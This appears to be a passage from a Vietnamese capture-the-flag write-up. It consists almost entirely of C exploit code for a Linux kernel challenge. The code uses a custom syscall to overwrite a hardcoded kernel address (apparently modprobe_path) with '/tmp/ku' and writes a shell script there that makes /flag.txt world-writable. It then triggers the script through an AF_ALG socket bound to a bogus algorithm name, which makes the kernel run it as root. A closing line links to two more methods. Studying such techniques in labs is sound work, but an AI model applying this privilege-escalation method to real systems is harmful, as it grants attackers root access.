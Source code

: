 ```c
typedef unsigned short __u16;
typedef unsigned char __u8;
typedef unsigned int __u32;

struct sockaddr_alg {
  __u16 salg_family;
  __u8 salg_type[14];
  __u32 salg_feat;
  __u32 salg_mask;
  __u8 salg_name[64];
};
int main(int argc, char **argv) {
  struct sockaddr_alg sa;
  void *kaddr = (void *)0xffffffff82b45b20;
  char buf[8] = "/tmp/ku\0";
  long ret = syscall(__NR_naup, kaddr, buf);
  if (ret < 0) {
    perror("naup");
    return 1;
  }


  system("echo '#!/bin/sh\nchmod 777 /flag.txt\ntouch /a' > /tmp/ku");
  system("chmod 777 /tmp/ku");

  int alg_fd = socket(AF_ALG, SOCK_SEQPACKET, 0);
  if (alg_fd < 0) {
    perror("socket(AF_ALG) failed");
    return 1;
  }

  memset(&sa, 0, sizeof(sa));
  sa.salg_family = AF_ALG;
  strcpy((char *)sa.salg_type, "kuvee"); // dummy string
  bind(alg_fd, (struct sockaddr *)&sa, sizeof(sa));
  return 0;
}
```


còn 2 cách nữa ta có thể tham khảo ở đây : https://naup.mygo.tw/2025/06/30/Linux-Kernel-Patched-exec-remove-legacy-custom-binfmt-modules-autoloading/


